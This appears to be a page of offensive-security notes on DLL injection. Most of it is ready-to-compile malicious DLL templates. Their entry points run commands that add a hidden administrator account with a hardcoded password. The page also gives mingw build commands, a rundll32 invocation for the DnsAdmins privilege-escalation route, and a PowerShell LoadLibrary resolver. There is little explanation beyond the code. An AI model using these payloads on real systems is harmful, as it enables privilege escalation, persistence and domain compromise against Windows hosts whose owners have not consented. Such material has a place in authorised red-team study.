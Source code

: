 # DLL Injection

```c
#include <stdlib.h>
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
	    // add payload
        system("cmd.exe /k net user sysadmin Password1234! /add & net localgroup Administrators sysadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```

A long variant of DLL template payload.

```c
#include <stdlib.h>
#include <windows.h>

BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,  // handle to DLL module
    DWORD fdwReason,     // reason for calling function
    LPVOID lpReserved) { // reserved
    // Perform actions based on the reason for calling.
    switch(fdwReason) { 
        case DLL_PROCESS_ATTACH:
         system("cmd /c net user <username> <password> /add /y & net user localgroup \"<group_name>\" \"<username>\" /add /y")
            break;
        case DLL_THREAD_ATTACH:
         // Do thread-specific initialization.
            break;
        case DLL_THREAD_DETACH:
         // Do thread-specific cleanup.
            break;
        case DLL_PROCESS_DETACH:
         // Perform any necessary cleanup.
            break;
    }
    // Successful. If this is FALSE, the process will be terminated eventually
    // https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-entry-point-function#entry-point-function-return-value
    return TRUE;  
}
```

```
$ x86_64-w64-mingw32-gcc -shared -o payload.dll payload.c
```

Loads a dynamic-link library (DLL) module into the address space of the calling process.

```c
#include <windows.h>
#include <libloaderapi.h>

#pragma comment(lib, "kernel32.lib")

LoadLibrary
LoadLibraryA
```

```
$ x86_64-w64-mingw32-gcc -l kernel32 -o payload.exe payload.c
```

DNSAdmin

```c
#include <stdlib.h>
#include <windows.h>

EXTERN_DLL_EXPORT int DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction) {
	// add payload
	system("cmd.exe /k net user sysadmin Password1234! /add & net localgroup Administrators sysadmin /add");
	return 0;
}

EXTERN_DLL_EXPORT int DnsPluginCleanUp() {
	return 0;
}

EXTERN_DLL_EXPORT int DnsPluginQuery(PVOID a1, PVOID a2, PVOID a3, PVOID a4) {
	return 0;
}
```

```
C:\> rundll32.exe .\payload.dll,DnsPluginInitialize
```

## PowerShell

```powershell
$Win32Functions = New-Object System.Object

$LoadLibraryAddress = Get-ProcAddress kernel32.dll LoadLibraryA
$LoadLibraryDelegate = Get-DelegateType @([String]) ([IntPtr])
$LoadLibrary = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($LoadLibraryAddress, $LoadLibraryDelegate)
$Win32Functions | Add-Member -MemberType NoteProperty -Name LoadLibrary -Value $LoadLibrary

$FreeLibraryAddress = Get-ProcAddress kernel32.dll FreeLibrary
$FreeLibraryDelegate = Get-DelegateType @([IntPtr]) ([Bool])
$FreeLibrary = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($FreeLibraryAddress, $FreeLibraryDelegate)
$Win32Functions | Add-Member -MemberType NoteProperty -Name FreeLibrary -Value $FreeLibrary
```

---
## References

### Tenouk

- [Tenouk: Dynamic Link Library - Part 1](https://www.tenouk.com/ModuleBB.html)

- [Tenouk: Dynamic Link Library - Part 2](https://www.tenouk.com/ModuleCC.html)

- [Tenouk: Windows DLL - A Supplementary Note](https://www.tenouk.com/cbbccfunction.html)

### Hacktricks

- [Hacktricks: Privileged Groups](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html)

### Red Team Notes

- [Red Team Notes: Executing Code as a Control Panel Item through an Exported Cplapplet Function](https://www.ired.team/offensive-security/code-execution/executing-code-in-control-panel-item-through-an-exported-cplapplet-function)

- [Red Team Notes: Code Execution through Control Panel Add-ins](https://www.ired.team/offensive-security/code-execution/code-execution-through-control-panel-add-ins)

- [Red Team Notes: From DnsAdmins to SYSTEM to Domain Compromise](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)